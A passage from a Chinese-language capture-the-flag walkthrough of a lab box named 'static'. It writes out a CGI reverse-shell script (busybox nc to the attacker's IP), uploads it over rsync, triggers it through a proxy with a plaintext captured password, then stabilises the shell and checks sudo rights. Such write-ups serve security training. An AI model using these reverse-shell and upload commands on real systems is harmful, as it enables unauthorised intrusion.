 返回 200，确认可以执行。上传反弹 shell：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat shell.cgi 
#!/bin/bash
echo "Content-Type: text/html"
echo ""

busybox nc 192.168.205.128 8888 -e /bin/bash

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ rsync shell.cgi rsync://proxy@192.168.205.189/_dev
Password: 
```

监听并触发：

```bash
# 监听端
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...

# 触发端
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl -U proxy:Pr0xyH@sTh3P0w3r -x http://192.168.205.189:3128 http://127.0.0.1:8000/cgi-bin/shell.cgi
```

成功获得 shell：

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.189] 59038
id
uid=13(proxy) gid=13(proxy) grupos=13(proxy)
```

# 五、权限提升

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

稳定 shell 后检查 sudo 权限：

```bash
proxy@static:/usr/bin$ sudo -l
Matching Defaults entries for proxy on static:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User proxy may run the following commands on static:
    (root) NOPASSWD: /usr/bin/proxychains
```
